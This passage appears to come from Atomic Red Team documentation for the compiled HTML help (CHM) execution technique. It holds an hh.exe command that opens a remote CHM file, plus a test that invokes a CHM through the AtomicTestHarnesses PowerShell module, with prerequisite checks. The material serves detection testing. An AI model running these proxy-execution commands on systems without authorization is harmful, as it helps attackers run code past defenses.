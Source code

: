 
```cmd
hh.exe #{remote_chm_file}
```






<br/>
<br/>

## Atomic Test #3 - Invoke CHM with default Shortcut Command Execution
Executes a CHM file with the default Shortcut Command method.

**Supported Platforms:** Windows


**auto_generated_guid:** 29d6f0d7-be63-4482-8827-ea77126c1ef7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| chm_file_path | Default path of CHM | String | Test.chm|
| hh_file_path | path of modified HH.exe | Path | $env:windir&#92;hh.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-ATHCompiledHelp -HHFilePath #{hh_file_path} -CHMFilePath #{chm_file_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: The AtomicTestHarnesses module must be installed and Invoke-ATHCompiledHelp must be exported in the module.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name AtomicTestHarnesses -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Invoke-ATHCompiledHelp']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```


